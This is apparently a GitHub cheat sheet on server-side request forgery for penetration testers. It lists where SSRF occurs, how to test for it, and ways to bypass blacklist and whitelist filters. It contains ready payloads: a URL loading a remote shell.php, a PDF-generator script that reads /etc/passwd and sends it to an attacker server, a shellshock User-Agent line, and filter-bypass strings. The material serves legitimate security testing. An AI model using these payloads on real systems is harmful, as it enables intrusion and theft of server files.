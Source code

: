 # Content
- [What can SSRF vulnerabilities can lead to](#what-can-ssrf-vulnerabilities-can-lead-to)
- [Where to find SSRF](#where-to-find-ssrf-)
- [Testing if app vulnerable to SSRF](#testing-if-app-vulnerable-to-ssrf)



## What can SSRF vulnerabilities can lead to:
- Interacting with known internal systems
- Discovering internal services via port scans
- Disclosing local/sensitive data
- Including files in the target application
- Leaking NetNTLM hashes using UNC Paths (Windows)
- Achieving remote code execution


## Where to find SSRF :
- Parts of HTTP requests, including (URLs,headrs,...)
```
Note: Always keep in mind that web application fuzzing should be part of any penetration testing or bug bounty hunting activity.
That being said, fuzzing should not be limited to user input fields only.
Extend fuzzing to parts of the HTTP request as well, such as the User-Agent.
```
- File imports such as HTML, PDFs, images, etc.
- Remote server connections to fetch data
- API specification imports
- Dashboards including ping and similar functionalities to check server statuses


## Testing if app vulnerable to SSRF
The most common test is local and remote file inclusion


#### **methdology**
- try diffrient protocols (http,file,ftp)
- fuzz ports
- do not forget to url encode if going through more than one app (ex:trible url encode)
- DNS loopkup for server you own


- Load External files (try RCE)
```
GET https://example.com/page?page=https://malicioussite.com/shell.php
```

- Access a Restricted Page
```
GET https://example.com/page?page=http://localhost/admin
```

- Attack other back-end systems
```
http://192.168.0.68/admin
```




## Blind SSRF
- We can detect blind SSRF vulnerabilities via out-of-band techniques
- Blind SSRF vulnerabilities could exist in PDF Document generators and HTTP Headers, among other locations.

### blind SSRF via pdf generator 
```
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>


```
### blind SSRF via User-Agent header (shellshock)
```
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
```

## Bypass

### SSRF with blacklist-based input filters

- Using an alternative IP representation for 127.0.0.1
```
127.1.
017700000001 (octal)
0x7f000001 (hexadecimal)
2130706433 (integer)
::ffff:7f00:1  , 0:0:0:0:0:ffff:7f00:0001 , 0000:0000:0000:0000:0000:ffff:7f00:0001(IPv6)

```
- Registering your own domain name that resolves to 127.0.0.1 OR any internal ip.
- Obfuscating blocked strings using URL encoding or case variation.
- Try using different redirect codes, as well as different protocols for the target URL.
```
file:// (file read)
netdoc:// (file read)
dict://
gopher://
jar://
ldap://

You might be able to get file read.

Or send multi-line requests to gain additional impact

(Ex: gopher + redis = likely RCE)
```
- Nip.io allows simple wildcard DNS for any IP address (127.0.0.1.nip.io = 127.0.0.1 )
```
127.0.0.1.nip.io  
0x7f000001.nip.io (hexadecimal IP notation)
Something.google.com.127.0.0.1.nip.io
```


### SSRF with whitelist-based input filters

- You can embed credentials in a URL before the hostname, using the @ character. For example:
```bash
https://expected-host:fakepassword@evil-host
```
- You can use the # character to indicate a URL fragment. For example:
```bash
https://evil-host#expected-host
```
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```bash
https://expected-host.evil-host
```
- You can URL-encode characters to confuse the URL-parsing code This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.
```text
Note
that you can also try double-encoding characters
some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
```
- You can use combinations of these techniques together.

